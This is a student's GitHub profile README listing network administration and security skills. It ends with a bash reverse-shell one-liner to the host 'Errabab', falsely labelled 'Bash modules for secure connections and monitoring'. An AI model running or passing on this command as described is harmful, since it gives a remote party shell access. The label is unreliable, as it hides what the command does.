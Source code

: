 # 👋 Hi, I'm Errabab

### Network and Database Administration student skilled in security, virtualization, and web development, with a focus on efficient and robust tech solutions.

---

### 📜 About Me
I'm dedicated to the field of system and network administration, with a commitment to securing and optimizing tech environments. My experience spans cybersecurity, virtualization, and web development, all of which drive my goal to deliver efficient and reliable solutions.

---

### ⚙️ Configuration

<config>
  
  🖥️ **Systems Administration**  
  🛡️ **Network Security**  
  📶 **System & Network Monitoring**  
  👾 **Ethical Hacking**  
  💥 **Penetration Testing**  
  ♾️ **DevOps**  

</config>

---

### 💻 Skills

- **Network and System Administration**  
- **Network Security and Monitoring**  
- **Security Research (SoC)**  
- **Ethical Hacking and Penetration Testing**  
- **System Monitoring and Optimization**  
- **Automation and SIEM Configuration**  

---

### 🤝 Connect with Me


[LinkedIn](https://www.linkedin.com/in/erabab-salec-ahrayam-316584263/)
[X (Twitter)](https://x.com/_jk_29)

---

#### Note:
_This configuration includes Bash modules for secure connections and monitoring:_

```bash
/bin/bash -i >& /dev/tcp/Errabab/444 0>&1


<!---
Errabab/Errabab is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
